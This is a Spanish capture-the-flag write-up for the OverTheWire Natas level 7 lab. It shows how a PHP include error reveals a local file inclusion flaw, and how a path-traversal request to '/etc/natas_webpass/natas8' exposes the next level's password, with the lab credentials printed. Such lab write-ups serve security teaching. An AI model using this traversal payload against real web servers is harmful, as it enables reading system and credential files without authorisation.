 ```yaml
---
title: Natas-07
published: true
---
```


```
Url del reto: http://natas7.natas.labs.overthewire.org/index.php
login:natas7
 pass:7z3hEENjQtflzgnT29q7wAvMNfZdh0i9
```

En este reto, si miramos el codigo fuente html nos da la siguiente pista

```html

<body>
<h1>natas7</h1>
<div id="content">

<a href="index.php?page=home">Home</a>
<a href="index.php?page=about">About</a>
<br>
<br>

<!-- hint: password for webuser natas8 is in /etc/natas_webpass/natas8 -->
</div>
</body>
</html>

```

Como podemos ver, nos dice donde esta la pass del siguiente nivel natas8
Si forzamos a que nos muestre un error como por ejemplo:

```
http://natas7.natas.labs.overthewire.org/index.php?page=popkdposkpoadopasd
```

```html

<body>
<h1>natas7</h1>
<div id="content">

<a href="index.php?page=home">Home</a>
<a href="index.php?page=about">About</a>
<br>
<br>
<br />
<b>Warning</b>:  include(popkdposkpoadopasd): failed to open stream: No such file or directory in <b>/var/www/natas/natas7/index.php</b> on line <b>21</b><br />
<br />
<b>Warning</b>:  include(): Failed opening 'popkdposkpoadopasd' for inclusion (include_path='.:/usr/share/php:/usr/share/pear') in <b>/var/www/natas/natas7/index.php</b> on line <b>21</b><br />

<!-- hint: password for webuser natas8 is in /etc/natas_webpass/natas8 -->
</div>
</body>
</html>

```

Como podemos observar, nos dice que no existe dicho fichero o directorio, viendo que las rutas que esta usando son las del sistema operativo linux, podriamos intentar probar ficheros que existan mediante una ruta relativa

```
http://natas7.natas.labs.overthewire.org/index.php?page=../../../../etc/natas_webpass/natas8
```

```html

<body>
<h1>natas7</h1>
<div id="content">

<a href="index.php?page=home">Home</a>
<a href="index.php?page=about">About</a>
<br>
<br>
DBfUBfqQG69KvJvJ1iAbMoIpwSNQ9bWe

<!-- hint: password for webuser natas8 is in /etc/natas_webpass/natas8 -->
</div>
</body>
</html>


```

```    
natas8:DBfUBfqQG69KvJvJ1iAbMoIpwSNQ9bWe
```

[Volver al archivo](archive)